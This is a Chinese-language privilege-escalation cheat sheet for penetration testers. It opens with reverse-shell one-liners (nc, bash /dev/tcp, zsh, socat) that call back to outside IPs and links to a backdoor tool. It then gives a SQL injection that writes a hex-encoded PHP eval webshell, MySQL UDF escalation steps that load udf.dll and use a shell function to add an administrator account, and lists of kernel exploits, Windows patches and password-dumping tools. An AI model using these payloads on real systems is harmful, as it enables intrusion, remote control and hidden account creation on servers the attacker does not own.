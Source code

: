 ## 反弹 shell

后门：https://github.com/LukaSikic/HaCoder.py

```sh
nc -e /bin/bash 4.4.9.102 8080
bash -c 'bash -i >/dev/tcp/4.4.9.102/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  #4.4.9.102
```

## mssql 提权

TODO

## mysql 提权

## UDF 提权

虽然 MySQL 的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的 MySQL 的 UDF。

MYSQL5.1 及之后的几个版本又多了一个限制：创建函数时所用的 DLL 只能放在 mysql 的 plugin 目录里面，而且这个 plugin 目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将 DLL 来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出 UDF 提权之前 ，先确定一下 MYSQL 的版本是有必要的**(`select version();`)

## 写入一句话木马

```sql
union select
0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into
dumpfile 'c:/www/small.php'

# 以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
# Invalid Query：File 'c:/www/small.php' already exists
# 第二次写入提示文件已存在则说明文件写入成功
```

## 查看 MYsql 安装根目录

```sql
select @@basedir;
```

根据 我们前面讲述的 MySQL5.1 版本及其之后版本，我们自定义函数需要用到的 shell 导出的目录应该是：
`C:/Program Files/phpStudy/MySQL/lib/plugin/`

其实也可以通过以下语句获得插件目录(_并不一定真实存在_):
`show variables like '%plugin%';`

## 创建/lib/plugin 目录

```sql
select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';
# 利用NTFS ADS创建lib目录

select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
# 利用NTFS ADS创建plugin目录
```

**利用 NTFS ADS 创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

将 udf.dll 导出到 plugin 目录

```sql
select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';
```

通过 sql 语句通过 udf.dll 创建 shell 函数

```sql
create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了c:\windows\system32目录

create function shell returns string soname 'C:udf.dll';
# 假设此时udf.dll被上传到了C盘根目录目录

create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\
```

### 用法

`shell`函数用于执行系统命令，用法如下

```sql
# 我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:

select shell('cmd','net user matrix matrix /add');

# 接着尝试把`matrix`账户添加到`administrators`管理组：
select shell('cmd','net localgroup administrators matrix /add');
# 然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：
select shell('cmd','net user matrix');
```

---

提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：

```sql
drop function shell;
# 删除函数
delete from mysql.func where name='shell';
# 删除函数
```

## linux

- CVE-2016-5195 脏牛漏洞
- CVE-2016-8655：Linux 内核竞争条件漏洞
- CVE-2017-1000367 sudo 本地提权漏洞:selinux 必须开

## win

## 系统密码破解

1. getpass.exe
2. minikz

## 补丁对应漏洞

```
KB2360937 →MS10-084
KB2478960 →MS11-014
KB2507938→ MS11-056
KB2566454→ MS11-062
KB2646524 →MS12-003
KB2645640→ MS12-009
KB2641653→ MS12-018
KB944653 →MS07-067
KB952004 →MS09-012
KB971657 →MS09-041
KB2620712→ MS11-097
KB2393802→ MS11-011
kb942831 →MS08-005
KB2503665 →MS11-046
KB2592799→ MS11-080
```
